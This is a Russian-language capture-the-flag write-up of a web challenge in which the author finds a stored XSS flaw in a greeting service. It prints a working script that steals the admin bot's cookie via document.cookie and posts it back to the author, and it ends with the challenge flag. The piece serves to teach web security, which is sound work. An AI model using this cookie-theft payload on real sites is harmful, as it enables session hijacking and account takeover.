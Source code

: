 # Web
## [2.2] Новогоднее поздравление
 > У нас же новый год, верно?
 > Так как в текущих условиях нельзя поздравлять лицом-к-лицу, то мы создали сервис, на котором вы можете отправлять приглашения друг-другу!

 > Говорят, что у админа есть особое поздравление для вас... Только он его отдавать почему-то не хочет. Но с радостью открывает ссылки в поздравлениях для него. 84.201.172.73:12004

 > Кто решит данный таск получит отдельную 5+ с большим коэффициентом. Hint1: Вам нужно получить куку админа. Для этого вспомните все, что мы проходили и пересмотрите задачи на requests, один из сайтов вам поможет.

Категория: `web` `not_easy`

### Решение
Регистрируюсь на сайте. 

Решил протестировать систему приема сообщений на уязвимость XSS. Закинул тестовый payload себе в поздравления:

![01ff57a79a0dcad0b6ea900974bdbff2.png](89bc584a63294eefbef21d3c22d51a36.png)

Если на сайте присутствует уязвимость XSS до мой код выполнится и слово "Получилось" будет красным.

![c1952e4ca063fe04ea7147ae74a0c93b.png](14317a9fc19b49a5a8edab2af2292bd6.png)

Получилось.

Попробую составить код на javascript, который сворует куки чужого браузера (`document.cookies`) и с помощью POST запроса отправит мне в поздравления.

Смотрю на запрос отправки сообщения:

![d0e63b832fa8e679ec6de31fb215b334.png](5b33abac634641848e5c3a9a3e97a504.png)

Поле `username` используется для указания ника собеседника, `congr` для указания самого сообщения.

Получившийся XSS код:

```html
<script>var req = new XMLHttpRequest();req.open("POST", "http://84.201.172.73:12004/congr");req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");req.send("username=test&congr="+encodeURIComponent(document.cookie));</script>
```
Тестирую на себе:

![58520ebb793637c0a39e027f02d1a2b8.png](d810864aa54e4c43979bd3ab4fe6d417.png)

![8ee3a460d9ed68237c0bbb55d90f535e.png](88c87f3349654e118c522e5305989691.png)

Работает!

Отправляю админу:

![6dedd39a049aa10e189e4f572d42f2ed.png](dbc705998b694f348cdbb4776aca0f31.png)

![7fcc9160723edca6e84af57a1e588130.png](0b322daedf7342e1b894ef1d33ecf9bd.png)

Получил куки, подставил.

![417f816693ec6c84653fe17531d90468.png](8ecd36eb852640cfa1864f04bc97d4af.png)

![f07417e63fc409536b22212ef69b17b0.png](bcbd3ac5a43446a4a66bfa2820e2cc1a.png)

`Имя: admin Админ: True` - Я под админом.

Здесь веб за 50.

![14f19ae3737ef24942ed5606b40938a2.png](0aaead849121443f9e8fb2ce466acbc6.png)

Все.
### Флаг
`mshp{n3w_y34r_styl3d_xx5_5xpl0iting_i5_s0_funny}`

